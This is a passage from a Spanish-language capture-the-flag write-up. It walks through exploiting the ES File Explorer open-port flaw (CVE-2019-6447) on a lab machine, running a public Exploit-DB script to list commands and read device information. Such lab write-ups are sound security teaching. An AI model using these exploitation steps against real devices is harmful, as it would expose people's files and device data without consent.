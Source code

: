 # User.txt

Me llama la atención el puerto sostenido por el servicio `ES File Explorer` e investigo un poco más sobre este:

![image](https://user-images.githubusercontent.com/67548295/139671914-67c50053-8098-496e-b258-f4e566232a45.png)

Al intentar buscar información sobre este puerto vemos que se hace mención a una **vulnerabilidad**.

Podemos ver su [identificador CVE](https://www.redhat.com/es/topics/security/what-is-cve){:target="\_blank"}{:rel="noopener nofollow"} y también podemos comprobar que existen **modulos** de `metasploit` para explotar esta vulnerabilidad.

Pero en este blog no utilizamos `metasploit`, asi que me apoyo de un [_Proof of concept_ de GitHub](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln){:target="\_blank"}{:rel="noopener nofollow"} para explotar la vulnerabilidad de forma manual.

LA vulnerabilidad consiste en lo siguiente:

> Cada vez que un usuario abre la aplicación, se monta un servidor **HTTP**. El servidor se ejecuta en el puerto `59777`.
> En este puerto, un atacante puede enviar payloads en **JSON** para obtener información sobre el dispositivo, descargar imágenes, ejecutar aplicaciones remotamente, etc.

Buscando por `exploitDB` encuentro un exploit funcional:

* [ES File Explorer 4.1.9.7.4 - Arbitrary File Read](https://www.exploit-db.com/exploits/50070){:target="\_blank"}{:rel="noopener nofollow"}

```bash
┌──[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ python3 50070.py whoami 10.10.10.247
[-] WRONG COMMAND!
Available commands : 
  listFiles         : List all Files.
  listPics          : List all Pictures.
  listVideos        : List all videos.
  listAudios        : List all audios.
  listApps          : List Applications installed.
  listAppsSystem    : List System apps.
  listAppsPhone     : List Communication related apps.
  listAppsSdcard    : List apps on the SDCard.
  listAppsAll       : List all Application.
  getFile           : Download a file.
  getDeviceInfo     : Get device info.
  ```
  
Intento ejecutar un `whoami` pero no podemos.

Únicamente podemos ejecutar esos comandos que se nos listan.

Probemos con el comando `getDeviceInfo`:

```bash
┌──[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ python3 50070.py "getDeviceInfo" 10.10.10.247

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : VMware Virtual Platform
ftpRoot : /sdcard
ftpPort : 3721
```
Podemos concluir que hay una ruta con nombre `/sdcard`.
